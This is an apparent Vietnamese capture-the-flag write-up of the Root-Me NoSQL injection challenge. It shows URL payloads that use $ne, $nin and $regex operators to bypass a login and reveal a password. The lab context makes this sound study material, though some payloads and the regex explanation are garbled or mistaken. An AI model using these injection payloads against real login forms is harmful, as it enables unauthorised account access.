 Đọc doc của rootme thấy có 1 dạng inject vào nosql rất phổ biến, đó là inject với mảng php, đại khái là khi truy cập vào đường dẫn này:

> http://challenge01.root-me.org/web-serveur/ch38/?login=admin&pass=admin

Nosql sẽ thực hiện truy vấn như sau:

> db.logins.find({ login: ‘tolkien’, pass: ‘admin’})

Nhưng nếu ta sửa lại đường dẫn :

> http://challenge01.root-me.org/web-serveur/ch38/?login[$ne]=1&pass[$ne]=1

Nosql sẽ truy vấn là :

> db.logins.find({ login: { $ne: 1 }, pass: { $ne: 1 } })

Và trong nosql, $ne nghĩa là not equal, và câu truy vấn trên sẽ bằng với câu sau trong mysql:

> SELECT * FROM logins WHERE username <>1 AND password <>1

Thử với trang web của rootme, chỉ có thông báo `you are connected as admin` hiện ra

Sửa url, thay 1 bằng admin, thông báo khác hiện ra :

`you are connected as test`

Nosql còn 1 toán tử nữa là $nin(not in), thử với url

> http://challenge01.root-me.org/web-serveur/ch38/?login[$nin][[][]=[admin,test]&pass[$ne]=1

vẫn không ra. Còn phép thử cuối cùng với `$regex`:

http://challenge01.root-me.org/web-serveur/ch38/?login[$regex]=`[^admin][^test]`&pass[$ne]=

có nghĩa là login không trùng với admin hoặc test. Khi đó password sẽ hiện ra 
